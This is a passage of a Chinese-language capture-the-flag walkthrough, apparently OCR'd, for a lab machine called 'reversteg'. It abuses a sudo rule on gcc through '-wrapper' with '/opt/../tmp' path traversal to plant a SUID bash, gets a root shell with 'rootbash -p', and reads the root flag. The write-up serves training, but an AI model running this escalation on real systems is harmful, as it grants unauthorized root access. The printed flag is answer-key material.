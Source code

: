 ```bash
welcome@reversteg:/home$ chmod +x /tmp/a.sh
```

创建一个虚拟的 C 源文件（gcc 需要编译目标）：

```bash
welcome@reversteg:/home$ echo 'int main(){return 0;}' > /tmp/dummy.c
```

**关键利用命令**：

```bash
welcome@reversteg:/home$ sudo /usr/bin/gcc -wrapper /opt/../tmp/a.sh,--version /tmp/dummy.c
```

**命令解析**：

- `/opt/../tmp/a.sh`：通过路径遍历绕过 `/opt/*` 限制
- `,--version`：`,` 作为分隔符，后续参数传递给 gcc
- 执行时会先以 root 权限运行 `/tmp/a.sh`

验证 SUID 二进制文件是否创建成功：

```bash
welcome@reversteg:/home$ ls -la /tmp/rootbash
-rwsr-sr-x 1 root root 1168776 Oct  1 08:42 /tmp/rootbash
```

**知识点补充**：

- **SUID (Set User ID)**：当可执行文件设置了 SUID 位时，执行该文件的用户会临时获得文件所有者的权限
- **-p 参数**：bash 的 `-p` 参数会保持有效用户 ID (effective UID)，防止 bash 自动降低权限

## 4.6 获取 Root Shell

使用创建的 SUID bash 获取 root 权限：

```bash
welcome@reversteg:/home$ /tmp/rootbash -p
rootbash-5.0# id
uid=1001(welcome) gid=1001(welcome) euid=0(root) egid=0(root) groups=0(root),1001(welcome)
```

成功获取 root 权限（euid=0）。

**知识点补充**：

- **uid vs euid**：uid 是实际用户 ID，euid 是有效用户 ID。系统权限检查基于 euid
- 这种方式获取的权限中，uid 仍是普通用户，但 euid 为 root，足以执行特权操作

# 五、获取 Root Flag

读取 root 目录下的 flag：

```bash
rootbash-5.0# cat /root/root.txt
flag{4f1eab505b71cd930b0eccd83ff0cfef}
```

成功获取 Root Flag：`flag{4f1eab505b71cd930b0eccd83ff0cfef}`